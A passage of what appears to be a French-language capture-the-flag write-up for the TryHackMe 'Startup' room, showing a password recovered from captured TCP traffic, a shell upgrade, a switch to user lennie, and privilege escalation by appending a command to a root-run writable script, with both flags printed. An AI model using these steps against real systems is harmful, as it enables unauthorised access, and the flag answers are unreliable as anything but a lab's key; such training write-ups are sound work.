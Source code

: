 On un filtre pour le port 4444.  
On fait un clique droit-\>suivre-\>Flux TCP     

On peut voire le mot de passe.   
Mot de passe : c4ntg3t3n0ughsp1c3     

**What are the contents of user.txt?**

```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@startup:/$ ls /home
ls /home
lennie
su lennie 
Password: c4ntg3t3n0ughsp1c3

lennie@startup:/$ 

cd /home/lennie
lennie@startup:~$ cat user.txt
cat user.txt
THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
```

On stabilise le shell.   
Avec le mot de passe on le nom d'utilisateur on change d'utilisateur.   
Il reste plus que à lire le flag.     

La réponse : THM{03ce3d619b80ccbfb3b7fc81e46c0e79}   

**What are the contents of root.txt?**

```bash
cd scripts
lennie@startup:~/scripts$ ls
ls -al
total 16
drwxr-xr-x 2 root   root   4096 Nov 12  2020 .
drwx------ 4 lennie lennie 4096 Nov 12  2020 ..
-rwxr-xr-x 1 root   root     77 Nov 12  2020 planner.sh
-rw-r--r-- 1 root   root      1 Aug  6 16:43 startup_list.txt

lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh

ls -al /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh

cat /etc/print.sh
#!/bin/bash
echo "Done!"

echo "cat /root/root.txt > /home/lennie/powned.txt" >> /etc/print.sh


cat ../powned.txt
THM{f963aaa6a430f210222158ae15c3d76d}

```
